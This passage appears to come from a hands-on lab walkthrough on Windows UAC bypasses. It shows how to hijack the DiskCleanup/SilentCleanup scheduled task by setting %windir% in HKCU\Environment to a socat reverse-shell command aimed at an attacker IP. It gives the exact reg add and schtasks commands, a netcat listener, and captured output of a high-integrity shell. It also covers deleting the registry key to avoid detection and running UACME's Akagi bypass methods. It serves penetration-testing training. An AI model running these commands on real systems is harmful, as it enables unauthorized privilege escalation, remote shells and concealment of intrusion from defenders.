To understand why we are picking Disk Cleanup, let's open the **Task Scheduler** and check the task's configuration:


Here we can see that the task is configured to run with the **Users** account, which means it will inherit the privileges from the calling user. The **Run with highest privileges** option will use the highest privilege security token available to the calling user, which is a high IL token for an administrator. Notice that if a regular non-admin user invokes this task, it will execute with medium IL only since that is the highest privilege token available to non-admins, and therefore the bypass wouldn't work.

Checking the Actions and Settings tabs, we have the following:


The task can be run on-demand, executing the following command when invoked:

`%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%`  as follows (without the quotes):

`"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

At the end of our command, we concatenate "&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by DiskCleanup. The resulting command would be (be sure to replace your IP address where needed):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

Where anything after the "REM" is ignored as a comment.

<span style="font-size: 23px;">**Putting it all together**</span>

Let's set up a listener for a reverse shell with nc:

`nc -lvp 4446`

We will then connect to the backdoor provided on port 9999:

`nc MACHINE_IP 9999`

And finally, run the following commands to write our payload to `%windir%` and then execute the DiskCleanup task (be sure to replace your IP address where needed):

```powershell
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```
As a result, you should obtain a shell with high IL:

```bash
user@kali$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```
To retrieve the DiskCleanup flag, use your new shell to execute:

```bash
C:\flags\GetFlag-diskcleanup.exe
```
<span style="font-size: 23px;">**Clearing our tracks**</span>

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```bash
reg delete "HKCU\Environment" /v "windir" /f
```
---

### Automated Exploitation

<span style="font-size: 23px;">**Automating UAC Bypasses**</span>

An excellent tool is available to test for UAC bypasses without writing your exploits from scratch. Created by @hfiref0x, UACME provides an up to date repository of UAC bypass techniques that can be used out of the box. The tool is available for download at its official repository on:

https://github.com/hfiref0x/UACME

While UACME provides several tools, we will focus mainly on the one called Akagi, which runs the actual UAC bypasses. You can find a compiled version of Akagi under `C:\tools\UACME-Akagi64.exe`.

Using the tool is straightforward and only requires you to indicate the number corresponding to the method to be tested. A complete list of methods is available on the project's GitHub description. If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```bash
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\attacker>cd /tools

C:\tools>UACME-Akagi64.exe 33
```
The methods introduced through this room can also be tested by UACME by using the following methods:

| Method Id | Bypass technique                       |
|-----------|----------------------------------------|
| 33        | fodhelper.exe                          |
| 34        | DiskCleanup scheduled task             |
| 70        | fodhelper.exe using CurVer registry key |